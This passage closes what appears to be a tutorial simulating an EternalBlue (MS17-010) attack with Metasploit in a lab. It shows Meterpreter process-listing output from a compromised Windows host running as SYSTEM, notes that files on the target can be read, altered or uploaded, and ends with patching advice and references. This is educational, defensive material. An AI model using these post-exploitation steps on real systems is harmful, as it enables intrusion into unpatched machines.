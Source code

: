 ```nohighlight
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User                          Path
 ---   ----  ----                     ----  -------  ----                          ----
 0     0     [System Process]                                                      
 4     0     System                   x64   0                                      
 272   4     smss.exe                 x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 328   500   svchost.exe              x64   0        NT AUTHORITY\NETWORK SERVICE  
 356   344   csrss.exe                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 396   388   csrss.exe                x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
...
```

From the result given by `getuid`, we know that Meterpreter is running as SYSTEM,
which is the lowest level of Windows and has highest privilege. This perfectly
shows how dangerous the EternalBlue exploit can be if employed by malicious hackers.

With the exploit, we can also read, download or edit files stored on target machine.
We can also upload files or programs to it - just like how WannaCry ransomware got
into the system.

To end the simulation, run `exit` command:

```nohighlight
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.210 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(ms17_010_eternalblue) > 
```

### Summary

This is a simple simulation of an attack using EternalBlue exploit. It illustrates
how easy the MS17-010 vulnerability can be exploited and how dangerous it could
be. To prevent such kind of attack, apply latest security patches from vendors and
regularly scan system for known vulnerabilities.

### Reference

[Microsoft Security Bulletin MS17-010](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)

[MS17-010 EternalBlue SMB Metasploit Module](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue)
